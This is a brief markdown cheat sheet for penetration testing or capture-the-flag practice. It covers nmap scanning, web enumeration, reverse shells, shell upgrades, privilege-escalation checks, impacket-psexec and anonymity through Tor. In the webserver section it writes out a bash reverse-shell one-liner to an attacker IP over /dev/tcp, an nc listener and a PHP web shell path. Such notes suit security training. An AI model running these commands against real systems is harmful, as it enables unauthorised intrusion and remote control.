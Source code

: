 # Target enumaration
1. `nmap <ip> -p-` (all ports) 
    - `-sU` (UDP) `-Pn` (skip host discovery)`
    - `-A` (implies `-O` (OS), `-sC` (scripts), `-sV` (version))
    - `-f` (fragment packets) `-D` (decoy)

# Webservers
1. Spider website (e.g. using Burp Suite Proxy without intercept)
2. Enumerate subdomains and dirs (e.g. with `gobuster`)
3. Gain read access on webserver
    - Enumerate login forms
    - XSS, SQL-Injection
4. Gain write access on webserver
    - Access OS shell
    - Set up reverse shell with `nc -lvnp <port>`
        - /usr/share/webshells/php/php-reverse-shell.php
        - `bash -c "bash -i >& /dev/tcp/{your_IP}/443 0>&1"`
    - Spawn fully interactive shell
        - `python3 -c 'import pty;pty.spawn("/bin/bash")'` CTRL+Z `stty raw -echo` `fg` `export TERM=xterm`
    - Use ssh if credentials found at some point
    - Check out user permissions with `whoami`, `id`, `sudo -l`
6. Search webserver
    - Interesting text data
        - `find . -type f -name '<glob pattern>' | xargs cat | grep -i <glob pattern>`
    - Binaries
        - Find binaries with permissions for user group `find / -group <group_name> 2>/dev/null`
        - Query infos about files `ls -la <path_to_file> && file <path_to_file>`
        - Append PATH `export PATH=<directory>:$PATH`
        - Check vulnerable binaries https://gtfobins.github.io/


# Password cracking
1. Use Google as Rainbow Table

## Windows
`impacket-psexec`

# Privacy
1. Tails
2. Proxychains with TOR